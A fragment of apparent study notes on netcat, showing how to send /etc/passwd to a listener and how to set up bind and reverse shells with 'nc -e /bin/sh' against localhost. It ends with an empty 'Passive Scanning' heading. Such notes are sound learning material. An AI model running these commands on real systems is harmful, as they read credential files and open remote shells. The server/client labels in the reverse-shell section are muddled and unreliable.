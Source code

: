 1. server ⇒  server open and file save 

```bash
nc -lvp 4444 > passwd
```

1. client ⇒ output passwd file input 

```bash
 nc -q 127.0.0.1 < /etc/passwd
```

## NetCat Bind Shell, Reverse Shell

### Bind Shell

- server litening for target
- server ⇒

```bash
nc -lvp 4444 -e /bin/sh
```

- client ⇒

```bash
nc 127.0.0.1 4444
```

⇒ open to server shell

### Reverse Shell

- server litening for client
- client ⇒

```bash
nc -lvp 4444
```

- server ⇒

```bash
nc 127.0.0.1 4444 -e /bin/sh
```

⇒ open to client shell

*Require ⇒ -e option use to server shell

---

# Passive Scanning

Created: Aug 16, 2020 12:47 AM
Last Edited Time: Aug 19, 2020 12:19 AM
Status: Complete 👀
Type: Technical Spec
